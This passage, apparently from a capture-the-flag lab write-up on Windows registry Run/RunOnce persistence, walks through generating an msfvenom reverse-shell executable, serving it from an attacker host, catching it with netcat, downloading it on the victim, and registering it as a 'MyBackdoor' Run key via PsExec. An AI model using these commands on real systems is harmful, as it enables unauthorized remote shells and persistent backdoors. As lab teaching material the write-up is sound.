 * `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom.

**Kali**

```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4451 -f exe -o revshell2.exe
```

**Kali**

```
python3 -m http.server
```

**Kali #2**

```
nc -lvnp 4451
```

**Victim(powershell)**

```
wget http://$KALI:8000/revshell.exe -O revshell2.exe
```

After transferring it to the victim machine, let's move it to C:\Windows:

**Victim(powershell)**

```
move revshell2.exe C:\Windows
```

Let's then create a REG\_EXPAND\_SZ registry entry under **HKLM\Software\Microsoft\Windows\CurrentVersion\Run**. The entry's name can be anything you like, and the value will be the command we want to execute.

Note: While in a real-world set-up you could use any name for your registry entry, for this task you are required to use **MyBackdoor** to receive the flag.

**Victim(cmd)**

<pre><code><strong>C:\tools\pstools\PsExec64.exe -i -s regedit
</strong></code></pre>

![](<../../.gitbook/assets/image (3) (2) (4).png>)
